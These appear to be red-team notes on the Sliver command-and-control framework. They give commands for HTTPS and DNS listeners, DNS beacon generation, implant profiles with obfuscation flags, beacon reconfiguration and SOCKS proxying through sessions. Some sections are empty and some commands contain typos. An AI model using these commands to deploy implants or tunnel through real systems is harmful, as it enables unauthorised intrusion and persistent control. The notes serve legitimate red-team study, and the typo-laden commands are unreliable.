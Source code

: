 Self-Signed Certificates - [RedSiege](https://redsiege.com/blog/2022/11/introduction-to-sliver/)
```bash
# Kali or Ubuntu 
apt install -y certbot
# Inside Sliver
sliver > https --domain $domain.com --lets-encrypt
# Without Lets encrypt
sliver > https https --domain $domain.com --cert ./cert.pem --key ./key.pem
```

DNS Implants - [RedSiege](https://redsiege.com/blog/2022/11/introduction-to-sliver/)
```go
// DNS configuration
// Create an A record ns1.$domain.com
// Create an NBS record cdn.$domain.com pointing to ns1.$domain.com
// Then in Sliver
// Make sure to append a . to the end to conform with DNS protocol
generate beacon --dns cdn.$domain.com.
// Start listener
dns --domain cdn.$domain.com.
```

Profiles *"are sorts of implant blueprints that define a configuration to be reused"*
```go
profiles new --<listenerType> <address> --format 
// symbol obfuscation may not work on stagers add:
--skip-symbols
// Formats

```

Stagers
```go

```

Reconfiguration of beacons
```go
reconfig
// Reconfigure becaon interval -i and Jitter -j 
reconfig -i 30s -j 5s
```

Proxies 
```go
// Either
use <sessionID> 
sessions -i <sessionID>
//
// Proxies
//
// Create a in-band SOCKS proxy inside of sliver
sock5 start
// kill Proxy
socks5 stop -i <id>
```
